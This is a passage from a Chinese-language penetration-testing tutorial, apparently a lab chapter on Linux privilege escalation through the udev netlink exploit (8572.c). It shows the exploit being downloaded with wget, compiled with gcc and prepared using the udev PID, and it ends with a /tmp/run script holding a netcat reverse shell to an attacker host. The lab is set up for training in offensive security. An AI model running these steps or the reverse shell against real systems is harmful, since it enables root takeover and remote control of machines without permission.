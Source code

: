 示例 13-15。使用 `wget` 下载文件

```
georgia@ubuntu:~$ **wget http://192.168.20.9/8572.c**
--2015-08-14 14:30:51--  http://192.168.20.9/8572.c
Connecting to 10.0.1.24:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2768 (2.7K) [text/x-csrc]
Saving to: `8572.c'

100%[======================================>] 2,768       --.-K/s   in 0s

2015-08-14 14:30:52 (271 MB/s) - `8572.c' saved [2768/2768]
```

现在按照这里所示，使用 GCC 在 Linux 目标上编译漏洞代码。使用`-o`标志指定编译代码的输出文件名。

```
georgia@ubuntu:~$ **gcc -o exploit 8572.c**
```

现在来查找漏洞使用信息中提到的 udev netlink 套接字 PID（示例 13-14）作为参数。使用信息中指出我们需要的 PID 列在 */proc/net/netlink* 中。使用 `cat` 命令查看该文件，如示例 13-16 中所示。

示例 13-16。/proc/net/netlink 文件

```
georgia@ubuntu:~$ **cat /proc/net/netlink**
sk       Eth Pid     Groups   Rmem     Wmem     Dump     Locks
f7a90e00 0   5574    00000111 0        0        00000000 2
da714400 0   6476    00000001 0        0        00000000 2
da714c00 0   4200780 00000000 0        0        00000000 2
--*snip*--
f7842e00 15  2468    00000001 0        0        00000000 2
f75d5c00 16  0       00000000 0        0        00000000 2
f780f600 18  0       00000000 0        0        00000000 2
```

列出的 PID 不止一个，但我们知道我们需要的 PID 通常是 udev 守护进程的 PID 减去 1。通过 `ps aux` 命令查看 udev 进程，如这里所示。

```
georgia@ubuntu:~$ **ps aux | grep udev**
root      2469  0.0  0.0   2452   980 ?        S<s  02:27   0:00 /sbin/udevd --daemon
georgia   3751  0.0  0.0   3236   792 pts/1    S+   14:36   0:00 grep udev
```

udev 守护进程的 PID 是 2469。来自示例 13-16 的一个 PID 是 2468（即 udev 的 PID 减去 1）。根据漏洞的帮助信息，这是我们需要的值。这个值在 Ubuntu 目标系统重启后会发生变化，因此请确保在自己的实验室中运行这些命令，以找到正确的值。

#### 向 /tmp/run 文件中添加代码

我们需要做的最后一件事是一些代码，以便作为 root 在文件 */tmp/run* 中运行。幸运的是，Ubuntu 系统上默认也安装了 Netcat，因此我们可以创建一个简单的 Bash 脚本，连接回 Kali 系统上的监听器，正如第二章中所讨论的。以下是该脚本。

```
georgia@ubuntu:~$ **cat /tmp/run**
#!/bin/bash
nc 192.168.20.9 12345 -e /bin/bash
```
